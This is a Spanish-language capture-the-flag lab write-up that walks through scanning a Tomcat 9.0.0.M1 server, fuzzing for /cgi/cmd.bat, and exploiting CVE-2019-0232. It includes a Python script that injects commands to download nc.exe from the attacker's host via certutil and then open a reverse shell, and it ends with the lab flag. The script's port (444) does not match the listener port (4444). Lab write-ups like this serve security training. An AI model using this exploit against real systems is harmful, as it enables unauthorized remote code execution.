

# Laboratorio: Skill Assessment I 🐱‍👓

1. Usamos **`nmap`** para escanear puertos abiertos
* `nmap -p- -sS -Pn -n [IP] -oG ports`

<p align="center">
    
</p>

---

2. Ahora hacemos un escaneo para conocer las versiones y los servicios que se ejecutan en todos los puertos
* `-nmap -sCV -p[Puertos] [IP] -oN versions`

**Output**
```java
8080/tcp  open  http          Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/9.0.0.M1
|_http-server-header: Apache-Coyote/1.1 
|_http-favicon: Apache Tomcat
```
* La aplicación que se está ejecutando es **`Tomcat`**
* El puerto es **`8080`**
* Su versión es **`9.0.0.M1`**

---

3. Ahora `fuzzearemos` por archivos con **`extensión .bat`** en el directorio **`/cgi`**
* `ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://[IP]:8080/cgi/FUZZ.bat`

```
[Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 138ms]
    * FUZZ: cmd
```

---

4. Utilizaremos el siguiente [exploit](https://github.com/jaiguptanick/CVE-2019-0232/tree/main)

---

5. Lo modificamos de la siguiente manera

```python
#!/usr/bin/env python3
import time
import requests
host='[IP Máquina Víctima]'
port='8080'
server_ip='[IP tun0]'#server that has nc.exe file to get reverse shell
server_port='80'
nc_ip='[IP tun0]'
nc_port='444'
url1 = host + ":" + str(port) + "/cgi/cmd.bat?" + "&&C%3a%5cWindows%5cSystem32%5ccertutil+-urlcache+-split+-f+http%3A%2F%2F" + server_ip + ":" + server_port + "%2Fnc%2Eexe+nc.exe"
url2 = host + ":" + str(port) + "/cgi/cmd.bat?&nc.exe+" + server_ip + "+" + nc_port + "+-e+cmd.exe"
try:
    requests.get("http://" + url1)
    time.sleep(2)
    requests.get("http://" + url2)
    print(url2)
except:
    print("Some error occured in the script")

```

* Ahora nos descargamos `nc.exe` y en ese mismo directorio creamos un servidor con **Python** `python3 -m http.server 80`
* Nos ponemos en escucha con **nc** en el puerto **4444** `nc -lvnp 4444`

---

6. Ejecutamos el script y ya tendremos una shell
* `python exploit.py`

---

7. Leemos la **flag** 🏴
```bash
C:\Users\Administrator\Desktop>type flag.txt
f55763d31a8f63ec935abd07aee5d3d0
```